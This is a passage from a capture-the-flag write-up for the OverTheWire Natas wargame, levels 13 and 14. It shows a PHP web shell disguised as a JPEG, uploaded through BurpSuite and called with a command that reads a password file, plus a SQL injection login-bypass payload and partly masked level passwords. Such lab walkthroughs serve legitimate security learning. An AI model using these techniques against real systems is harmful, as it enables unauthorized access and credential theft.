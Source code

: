 Repeat the ``file`` command : 
```bash
exegol-htb-ra OverTheWire # file shell.php
shell.php: JPEG image data
exegol-htb-ra OverTheWire #
```

It works ! 

Finally, we need to upload the shell. Use **BurpSuite** to intercept the request and don't forget to change the extension, like the previous level ! 

Forward the request : 
![Uploaded](../assets/img/OTW/level13_2.png)

Go on ``http://natas13.natas.labs.overthewire.org/upload/fpmmkqxvwu.php?cmd=cat%20/etc/natas_webpass/natas14`` to read the password.

<br>

Connect to the next level on `http://natas14.natas.labs.overthewire.org/` with :

- Username : ``natas14``
- Password : ``qPazSJBm------------7MHk1PGC4DxZMEP``

<br>

## Level 14

> Username and Password

<br>

We have a login form. We can try to see if it is SQL injectable.

Use this payload : ``admin" OR 1=1-- -`` :
![SQL Injection](../assets/img/OTW/level14.png)

And it works ! 
```text
Successful login! The password for natas15 is TTkaI7A---------KV7kRXH1EZRB
```
